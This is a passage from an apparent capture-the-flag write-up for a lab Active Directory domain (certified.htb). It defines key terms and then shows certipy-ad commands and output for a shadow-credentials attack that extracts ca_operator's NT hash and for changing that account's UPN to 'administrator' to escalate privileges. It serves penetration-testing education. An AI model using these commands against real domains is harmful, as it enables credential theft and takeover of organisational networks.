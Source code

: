 We can check our key terms:

#### **Key Terms & Techniques**

1. **GenericAll Rights**:
   * A permission granting full control over an AD object (e.g., user, group).
2. **KeyCredentialLink**:

* An AD attribute storing public keys for certificate-based authentication.

3. **UserPrincipalName (UPN)**:

* An identifier formatted as `user@domain` (e.g., `administrator@certified.htb`).

4. **Certificate Template Misconfiguration**:

* A vulnerable template (`CertifiedAuthentication`) allowed enrollment without proper validation.

5. **PKINIT Authentication**:

* Kerberos authentication using certificates instead of passwords.

Ok, once we've structured all, let's put it into practice:

**Adding KeyCredential**

```
certipy-ad shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'b36104d9-a205-51d9-4f39-59729e993822'
[*] Adding Key Credential with device ID 'b36104d9-a205-51d9-4f39-59729e993822' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID 'b36104d9-a205-51d9-4f39-59729e993822' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2
```

There we go, our next step is **Updating the UPN of `ca_operator` to `administrator`**:

```
certipy-ad account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn administrator

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'
```
